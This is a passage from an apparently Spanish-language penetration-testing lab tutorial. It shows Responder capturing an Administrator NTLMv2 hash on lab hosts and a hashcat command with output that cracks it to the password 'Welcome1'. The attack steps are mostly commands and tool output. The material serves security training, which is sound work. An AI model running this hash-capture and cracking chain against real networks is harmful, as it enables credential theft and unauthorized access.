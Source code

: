 ```r
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun2]
    Responder IP               [10.10.14.3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']



[!] Error starting SSL server on port 443, check permissions or other servers running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...
```

### Cracking NTLMv2 Hash with Hashcat

Luego podríamos intentar descifrar este hash de contraseña offline usando `Hashcat` para recuperar el texto claro.

```r
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Welcome1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Time.Started.....: Thu May 27 19:16:18 2021 (1 sec)
Time.Estimated...: Thu May 27 19:16:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1233.7 kH/s (2.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: holabebe -> harder

Started: Thu May 27 19:16:16 2021
Stopped: Thu May 27 19:16:20 2021
```
